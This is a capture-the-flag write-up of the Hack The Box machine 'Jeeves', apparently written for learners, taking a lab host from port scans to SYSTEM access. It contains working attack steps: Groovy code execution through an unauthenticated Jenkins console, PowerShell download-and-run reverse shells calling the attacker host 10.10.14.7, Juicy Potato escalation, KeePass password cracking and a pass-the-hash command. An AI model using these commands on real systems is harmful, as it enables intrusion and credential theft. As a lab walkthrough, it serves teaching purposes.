







# Jeeves Writeup w/o Metasploit



## Reconnaissance <a id="2e7f"></a>

Run the [nmapAutomato](https://github.com/rkhal101/nmapAutomator)r script to enumerate open ports and services running on those ports.

```text
./nmapAutomator.sh 10.10.10.63 All
```

* **All**: Runs all the scans consecutively.

We get back the following result.

```text
root@kali:~/Desktop/htb/jeeves# nmapAutomator.sh 10.10.10.63 AllRunning all scans on 10.10.10.63Host is likely running Windows---------------------Starting Nmap Quick Scan---------------------Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-29 12:09 EST                                                                                                                
Nmap scan report for 10.10.10.63                                                                                                                                               
Host is up (0.043s latency).                                                                                                                                                   
Not shown: 996 filtered ports                                                                                                                                                  
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit                                                                                                    
PORT      STATE SERVICE                                                                                                                                                        
80/tcp    open  http                                                                                                                                                           
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2Nmap done: 1 IP address (1 host up) scanned in 4.60 seconds---------------------Starting Nmap Basic Scan---------------------
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-29 12:09 EST
Nmap scan report for 10.10.10.63
Host is up (0.039s latency).PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windowsHost script results:
|_clock-skew: mean: 5h02m21s, deviation: 0s, median: 5h02m21s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-02-29T22:12:01
|_  start_date: 2020-02-29T22:09:09Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.74 seconds
----------------------Starting Nmap UDP Scan----------------------
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-29 12:10 EST
Nmap scan report for 10.10.10.63
Host is up.
All 1000 scanned ports on 10.10.10.63 are open|filteredNmap done: 1 IP address (1 host up) scanned in 201.64 seconds
---------------------Starting Nmap Full Scan----------------------
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-29 12:13 EST
Initiating Parallel DNS resolution of 1 host. at 12:13
Completed Parallel DNS resolution of 1 host. at 12:13, 0.03s elapsed
Initiating SYN Stealth Scan at 12:13
Scanning 10.10.10.63 [65535 ports]
.....
Nmap scan report for 10.10.10.63
Host is up (0.096s latency).
Not shown: 65531 filtered ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 326.24 seconds
           Raw packets sent: 131304 (5.777MB) | Rcvd: 59833 (14.328MB)No new ports---------------------Starting Nmap Vulns Scan---------------------
                                                                                                                                                                               
Running CVE scan on basic ports
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-29 12:19 EST
Nmap scan report for 10.10.10.63
Host is up (0.41s latency).PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windowsService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.81 secondsRunning Vuln scan on basic ports
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-29 12:19 EST
Nmap scan report for 10.10.10.63
Host is up (0.24s latency).PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.63
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://10.10.10.63:80/
|     Form id: 
|_    Form action: error.html
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Microsoft-IIS/10.0
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
135/tcp   open  msrpc        Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windowsHost script results:
|_samba-vuln-cve-2012-1182: No accounts left to try
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: No accounts left to tryService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 200.75 seconds---------------------Recon Recommendations----------------------Web Servers Recon:
                                                                                                                                                                               
gobuster dir -w /usr/share/wordlists/dirb/common.txt -l -t 30 -e -k -x .html,.asp,.php -u http://10.10.10.63:80 -o recon/gobuster_10.10.10.63_80.txt
nikto -host 10.10.10.63:80 | tee recon/nikto_10.10.10.63_80.txtgobuster dir -w /usr/share/wordlists/dirb/common.txt -l -t 30 -e -k -x .html,.php -u http://10.10.10.63:50000 -o recon/gobuster_10.10.10.63_50000.txt
nikto -host 10.10.10.63:50000 | tee recon/nikto_10.10.10.63_50000.txtSMB Recon:
                                                                                                                                                                               
smbmap -H 10.10.10.63 | tee recon/smbmap_10.10.10.63.txt
smbclient -L "//10.10.10.63/" -U "guest"% | tee recon/smbclient_10.10.10.63.txt
nmap -Pn -p445 --script vuln -oN recon/SMB_vulns_10.10.10.63.txt 10.10.10.63Which commands would you like to run?                                                                                                                                          
All (Default), gobuster, nikto, nmap, smbclient, smbmap, Skip <!>Running Default in (1) s:---------------------Running Recon Commands----------------------Starting gobuster scan
                                                                                                                                                                               
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.63:80
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Show length:    true
[+] Extensions:     asp,php,html
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/02/29 12:23:07 Starting gobuster
===============================================================
http://10.10.10.63:80/error.html (Status: 200) [Size: 50]
http://10.10.10.63:80/Index.html (Status: 200) [Size: 503]
http://10.10.10.63:80/index.html (Status: 200) [Size: 503]
http://10.10.10.63:80/index.html (Status: 200) [Size: 503]
===============================================================
2020/02/29 12:24:32 Finished
===============================================================Finished gobuster scan
                                                                                                                                                                               
=========================
                                                                                                                                                                               
Starting nikto scan
                                                                                                                                                                               
- Nikto v2.1.6
--------------------------------------------------------------------
+ Target IP:          10.10.10.63
+ Target Hostname:    10.10.10.63
+ Target Port:        80
+ Start Time:         2020-02-29 12:24:34 (GMT-5)
--------------------------------------------------------------------
+ Server: Microsoft-IIS/10.0
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ 7863 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2020-02-29 12:31:06 (GMT-5) (392 seconds)
--------------------------------------------------------------------
+ 1 host(s) testedFinished nikto scan
                                                                                                                                                                               
=========================
                                                                                                                                                                               
Starting gobuster scan
                                                                                                                                                                               
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.63:50000
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Show length:    true
[+] Extensions:     html,php
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/02/29 12:31:06 Starting gobuster
===============================================================
===============================================================
2020/02/29 12:31:50 Finished
===============================================================Finished gobuster scan
                                                                                                                                                                               
=========================
                                                                                                                                                                               
Starting nikto scan
                                                                                                                                                                               
- Nikto v2.1.6
--------------------------------------------------------------------
+ Target IP:          10.10.10.63
+ Target Hostname:    10.10.10.63
+ Target Port:        50000
+ Start Time:         2020-02-29 12:31:52 (GMT-5)
--------------------------------------------------------------------
+ Server: Jetty(9.4.z-SNAPSHOT)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ 7864 requests: 0 error(s) and 3 item(s) reported on remote host
+ End Time:           2020-02-29 12:37:30 (GMT-5) (338 seconds)
--------------------------------------------------------------------
+ 1 host(s) tested
                                                                                                                                                                               
=========================
                                                                                                                                                                               
Starting smbmap scan
                                                                                                                                                                               
[+] Finding open SMB ports....
[!] Authentication error on 10.10.10.63
[!] Authentication error on 10.10.10.63Finished smbmap scan
                                                                                                                                                                               
=========================
                                                                                                                                                                               
Starting smbclient scan
                                                                                                                                                                               
session setup failed: NT_STATUS_ACCOUNT_DISABLEDFinished smbclient scan
                                                                                                                                                                               
=========================
                                                                                                                                                                               
Starting nmap scan
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-29 12:37 EST
Nmap scan report for 10.10.10.63
Host is up (0.036s latency).PORT    STATE SERVICE
445/tcp open  microsoft-ds
|_clamav-exec: ERROR: Script execution failed (use -d to debug)Host script results:
|_samba-vuln-cve-2012-1182: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: No accounts left to tryNmap done: 1 IP address (1 host up) scanned in 24.68 secondsFinished nmap scan
                                                                                                                                                                               
=========================
                                                                                                                                                                               
                                                                                                                                                                               
                                                                                                                                                                               
---------------------Finished all Nmap scans---------------------Completed in 28 minute(s) and 36 second(s)
```

We have four open port.

* **Port 80:** running Microsoft IIS httpd 10.0
* **Ports 135 & 445:** running SMB
* **Port 50000:** running Jetty 9.4

Before we move on to enumeration, let’s make some mental notes about the scan results.

* Ports 80 and 50000 are running web servers. The gobuster and nikto scans didn’t find anything useful, so we’ll have to run more comprehensive scans.
* Nmap was not able to access SMB, so it’s unlikely that we can gain initial access through this service.

## Enumeration <a id="7599"></a>

I always start off with enumerating HTTP.

### Port 80 HTTP <a id="cda7"></a>

Visit the application in the browser.



View the page source. We see that all the links don’t lead to any new pages.


Similarly, the search field simply leads us to the _error.html_ page, which is just an image of a server error.



There are no input vectors to test for things like SQLi and LFI, so we’ll just move on to enumerating the next port.

### Port 50000 HTTP <a id="071d"></a>

Visit the application in the browser.


We get a 404 error page. Let’s run a gobuster scan on the server with a more comprehensive word list.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.63:50000 -o gobuster-medium.txt
```

* **dir:** directory mode
* **-w:** wordlist
* **-u:** URL
* **-o:** output file

We get back the following result.

```text
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.63:50000
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/02/29 12:13:40 Starting gobuster
===============================================================
/askjeeves (Status: 302)
===============================================================
2020/02/29 12:32:22 Finished
===============================================================
```

Visit the newly found directory.


It’s running a Jenkins server, which is a free and open-source automation server. We seem to have all the privileges that an administrator would have, including the ability to change the admin user’s password!


Since we already have the highest possible level of privilege, we don’t even need to even look for associated CVEs. Jenkins by design can execute code on the server.

## Initial Foothold <a id="8901"></a>

One way to code execution is creating a new job and gaining initial access through there. However, instead we’ll execute code through the _Script Console_ \(_Manage Jenkins_ &gt; _Script Console_\).



As mentioned on the page, we can type in an arbitrary Groovy script and execute it on the server. A quick google search tells us how to run shell commands using Groovy.

```text
def command = "whoami"
def proc = command.execute()
println(proc.in.text)
```

Run the above script.



We have code execution! Let’s use that to send a reverse shell to our attack machine.

Download the [Nishang](https://github.com/samratashok/nishang) repository and copy the _Invoke-PowerShellTcp.ps1_ script into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following line to the end of the script with the attack machine configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 1234
```

When called, this sends a reverse shell back to our attack machine on port 1234.

Start up a python server in the directory that the shell script resides in.

```text
python -m SimpleHTTPServer 5555
```

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Then going back to the _Script Console_, add the following Groovy script.

```text
def command = “powershell -c iex(new-object net.webclient).downloadstring(‘http://10.10.14.7:5555/shell.ps1')"
def proc = command.execute()
println(proc.in.text)
```

Run the above script. We get a shell!


Grab the _user.txt_ flag.


## Privilege Escalation <a id="153e"></a>

Run the _systeminfo_ command.

```text
PS C:\Users\kohsuke\Desktop> systeminfoHost Name:                 JEEVES
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.10586 N/A Build 10586
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00331-20304-47406-AA297
Original Install Date:     10/25/2017, 4:45:33 PM
System Boot Time:          3/1/2020, 12:55:25 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.13989454.B64.1906190538, 6/19/2019
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,152 MB
Virtual Memory: Max Size:  2,687 MB
Virtual Memory: Available: 1,740 MB
Virtual Memory: In Use:    947 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 10 Hotfix(s) Installed.
                           [01]: KB3150513
                           [02]: KB3161102
                           [03]: KB3172729
                           [04]: KB3173428
                           [05]: KB4021702
                           [06]: KB4022633
                           [07]: KB4033631
                           [08]: KB4035632
                           [09]: KB4051613
                           [10]: KB4041689
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.63
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

It’s running Microsoft Windows 10 Pro, with a 64-bit OS. Let’s first check the system privileges that are enabled for this user.


_SetImpersonatePrivilege_ is enabled so we’re very likely to get SYSTEM using [Juicy Potato](https://github.com/ohpe/juicy-potato). Users running the SQL server service or the IIS service usually have these privileges enabled by design. This privilege is designed to allow a service to impersonate other users on the system. Juicy Potato exploits the way Microsoft handles tokens in order to escalate local privileges to SYSTEM.

Let’s test it out. Grab the Juicy Potato executable from [here](https://github.com/ohpe/juicy-potato/releases) and transfer it to the target machine using the following command.

```text
(new-object net.webclient).downloadfile('http://10.10.14.7:5555/JuicyPotato.exe', 'C:\Users\kohsuke\Desktop\jp.exe')
```

Run the executable file to view the arguments it takes.



It requires 3 mandatory arguments.

* **-t:** Create process call. For this option we’ll use \* to test both options.
* **-p:** The program to run. We’ll need to create a file that sends a reverse shell back to our attack machine.
* **-l:** COM server listen port. This can be anything. We’ll use 4444.

First copy the _Invoke-PowerShellTcp.ps1_ script once again into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell-2.ps1
```

Add the following line to the end of the script with the attack configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 6666
```

When called, this sends a reverse shell back to our attack machine on port 6666.

Next, create a _shell.bat_ file that downloads the above _shell-2.ps1_ PowerShell script and runs it.

```text
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell-2.ps1')
```

Then download the _shell.bat_ file on the target machine.

```text
(new-object net.webclient).downloadfile('http://10.10.14.7:5555/shell.bat', 'C:\Users\kohsuke\Desktop\shell.bat')
```

Setup a listener on the attack machine to receive the reverse shell.

```text
nc -nlvp 6666
```

Then run the Juicy Potato executable. This should attempt to get a token that impersonates SYSTEM and then run our _shell.bat_ file with elevated privileges.

```text
./jp.exe -t * -p shell.bat -l 4444
```

We get a shell with SYSTEM privileges!


Grab the _root.txt_ flag.



The _root.txt_ flag is not there and the _hm.txt_ file says that the flag is elsewhere. Let’s see if there’s any [streams](https://davidhamann.de/2019/02/23/hidden-in-plain-sight-alternate-data-streams/) associated to the _hm.txt_ file.

```text
PS C:\Users\Administrator\Desktop> Get-Item -path hm.txt -stream *
                                                                                                                                                            
                                                                                                                                                            FileName: C:\Users\Administrator\Desktop\hm.txt                                                                                                                             
                                                                                                                                                                               
Stream                   Length                                                                                                                                                
------                   ------                                                                                                                                                
:$DATA                       36                                                                                                                                                
root.txt                     34
```

So it does have a stream called _root.txt_. We can view that using the following command.

```text
Get-Content -path hm.txt -stream root.txt
```

This gives us the root flag!


## Extra Content — Intended Priv Esc <a id="e064"></a>

After rooting the box, I watched [IppSec’s video](https://www.youtube.com/watch?v=EKGBskG8APc) and found out that I escalated privileges in an unintended way. In this section, we’ll cover the intended way to escalate privileges.

In the _Documents_ directory, we can see that there is a KeePass database.


Let’s transfer it to our attack machine. First setup an SMB server with the share “_temp_” on the attack machine.

```text
impacket-smbserver temp .
```

Next, connect to that server on the target machine.

```text
New-PSDrive -Name "temp" -PSProvider "FileSystem" -Root "\\10.10.14.7\temp"
```

Enter the _temp_ share.

```text
cd temp:
```

Then copy the _CEH.kbox_ file to the current directory.

```text
cp C:\Users\kohsuke\Documents\CEH.kdbx .
```

Now we have access to the file on the attack machine.

```text
root@kali:~/Desktop/htb/jeeves/smb# dir
CEH.kdbx
```

The KeePass database is password protected. In order to crack the password using John the Ripper \(JtR\), we’ll have to extract a JtR compatible hash of the password. This can be done as follows.

```text
keepass2john CEH.kdbx > hash.txt
```

Then run JtR on the hash.

```text
john --format=KeePass --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

We get back the following output.

```text
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)
1g 0:00:00:51 DONE (2020-02-29 22:11) 0.01953g/s 1073p/s 1073c/s 1073C/s nando1..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now we have all the information we need to open the KeePass database. To do that from the command line, we’ll use the kpcli program.

```text
root@kali:~/Desktop/htb/jeeves/smb# kpcli --kdb CEH.kdbx
Please provide the master password: *************************KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.kpcli:/> ls
=== Groups ===
CEH/
kpcli:/> cd CEH/
kpcli:/CEH> ls
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Windows/
=== Entries ===
0. Backup stuff                                                           
1. Bank of America                        www.bankofamerica.com
2. DC Recovery PW                                                         
3. EC-Council                    www.eccouncil.org/programs/cer
4. It's a secret                      localhost:8180/secret.jsp
5. Jenkins admin                                 localhost:8080
6. Keys to the kingdom                                                    
7. Walmart.com                                  www.walmart.com
```

Let’s view some of the interesting looking entries.

```text
kpcli:/CEH> show -f 5Title: Jenkins admin
Uname: admin
 Pass: 
  URL: http://localhost:8080
Notes: We don't even need creds! Unhackable!kpcli:/CEH> show -f 6Title: Keys to the kingdom
Uname: bob
 Pass: lCEUnYPjNfIuPZSzOySA
  URL: 
Notes:kpcli:/CEH> show -f 4Title: It's a secret
Uname: admin
 Pass: F7WhTrSFDKB6sxHU1cUn
  URL: http://localhost:8180/secret.jsp
Notes:kpcli:/CEH> show -f 0Title: Backup stuff
Uname: ?
 Pass: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
  URL: 
Notes:
```

I’m not going to bother with _admin_ and _bob_ because I know from the _net user_ command that they’re not users on the system. The _Backup stuff_ entry however contains what looks like an NTLM hash.

Let’s try a pass the hash attack on the _administrator_ account.

```text
pth-winexe --user=administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 --system //10.10.10.63 cmd.exe
```

We’re SYSTEM!


There you go, two different ways of escalating privileges!

## Lessons Learned <a id="29db"></a>

To gain an initial foothold on the box we exploited one vulnerability.

1. Insecure configuration of Jenkins permissions. We had full privileges on the Jenkins server, without having to authenticate. The administrator should have locked down access to the Jenkins UI so that users need to be authenticated and appropriate set of permissions are given to these users.

To escalate privileges we exploited one vulnerability.

1. Weak authentication credentials on the KeePass database. Clearly, the user is security-aware and therefore is using a KeePass database to store his passwords. However, the password to the database was not strong enough and therefore we were able to crack it in a matter of seconds and gain access to all the other passwords that the user had stored in the database. The user should have used a strong password that is difficult to crack.

The other way we escalated privileges didn’t necessarily exploit a vulnerability but an intended design of how Microsoft handles tokens. So there’s really not much to do there but put extra protections in place for these sensitive accounts.

